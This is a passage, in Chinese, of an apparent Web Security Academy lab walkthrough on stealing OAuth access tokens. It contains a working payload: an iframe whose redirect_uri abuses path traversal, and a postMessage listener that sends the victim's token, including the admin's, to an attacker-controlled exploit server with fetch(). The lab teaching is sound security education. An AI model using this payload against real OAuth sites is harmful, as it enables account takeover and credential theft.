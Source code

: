 [![](assets/1706059995-f438523db5545caa51e04add2477a7b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234003-82dc1b22-b93c-1.png)  
随后我们构造如下载荷并用漏洞利用服务器进行托管操作：

```bash
<iframe src="https://oauth-0a82000703fb10c7839a724d02f3000b.oauth-server.net/auth?client_id=so0r401bjqdo1b9htyyeb&redirect_uri=https://0afa0008035e107083727466006000e9.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

[![](assets/1706059995-04ac087747f55ce1dae733eec26a73ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234026-9026275a-b93c-1.png)  
访问载荷页面：  
[![](assets/1706059995-6684d03bc9ddb8594c487f1617c9b58f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234045-9b8dd6ba-b93c-1.png)  
在日志中我们可以获取到 accesstoken 记录  
[![](assets/1706059995-32f9cd8ab3403b58b52567b5c0dca950.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234100-a44d3c1e-b93c-1.png)  
随后分发一次请求载荷并刷新日志可以看到来自 admin 的 accesstoken  